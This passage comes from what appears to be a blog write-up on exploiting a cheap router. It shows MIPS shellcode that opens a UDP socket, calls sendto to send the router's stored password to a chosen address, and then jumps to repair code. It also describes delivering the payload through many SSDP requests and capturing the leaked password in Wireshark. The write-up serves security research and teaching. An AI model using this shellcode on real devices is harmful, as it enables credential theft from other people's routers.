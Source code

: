 - Call `socket(2, 2, 0)` to create the socket and get the *sockfd*:

```python
addiu $a0, $zero, 2;
addiu $a1, $zero, 2;
jalr $s3;           /* socket(2, 2, 0) - s3 contains address of socket()*/
move $a2, $zero;
```

- Move all of the arguments to the correct registers, and call `sendto`:

```python
move $a0, $v0;      /* v0 contains sockfd_address */
move $a1, $s2;      /* s2 contains pwd buffer address */
move $a2, $s0;      /* s0 contains pwd length */
move $a3, $zero;
move $t0, $s1;      /* s1 contains the address of sockaddr */
lui $v0, 0x8012;
or $v0, $v0, 0x8bc4;
jalr $v0;           /* sendto(sockfd_addr (0x802ab9b0), pwd_buffer (0x801d3754), len, 0, sockaddr_addr (0x802ab980), 0x20); */
addiu $t1, $zero, 0x20;
```

- Finally, jump to the address of the fix shellcode to load the expected register values and adjust the stack pointer:

```python
j 0x802C3638;   /* fix address */
xor $v0, $s3, $s3;
```

As you can see, it is much easier to follow than the ROP chain in part 3!

### Does it work?

After sending the huge amount of SSDP requests to write the shellcode, decode it, and then run it, it works! I did initially have some issues with random crashes, but this was fixed by adding delays between the packets being sent, and also attempting to write each memory address twice. This was probably due to the caches being annoying as per usual.

Here are some of the packets that are seen when sending the payload in wireshark, you can see the password-containing packet be sent from the router at the end:

![packets.png]({{site.baseurl}}/assets/images/analysing_a_dirt_cheap_router_part_4/packets.png)

And here are the contents of the UDP packet containing the password:

![packet_contents.png]({{site.baseurl}}/assets/images/analysing_a_dirt_cheap_router_part_4/packet_contents.png)

We can see the password is *th35he11c0d3w0rk5*!

![anonymous_cat.jpg]({{site.baseurl}}/assets/images/analysing_a_dirt_cheap_router_part_4/anonymous_cat.jpg)

# Conclusion
